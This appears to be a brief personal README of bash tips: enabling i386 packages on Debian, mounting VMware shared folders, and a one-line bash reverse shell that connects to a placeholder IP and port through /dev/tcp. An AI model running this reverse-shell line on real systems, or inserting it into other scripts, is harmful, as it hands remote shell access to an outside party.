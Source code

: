 # Bash / Shellscripts  
Collection of randomness.  

---

## Misc notes  
Enable i386 architecture on Debian based system(s):  
```bash
sudo dpkg --add-architecture i386  
```

VMWare Workstation mount shared folders from host into guest /mnt:  
```bash
sudo /usr/bin/vmhgfs-fuse .host:/ /mnt -o subtype=vmhgfs-fuse,allow_other  
```

TCP Bash Reverse Tunnel  
```bash
# Get a call back from bash, using /dev/tcp

bash -i >& /dev/tcp/IPADDRESS/PORT 0>&1
```
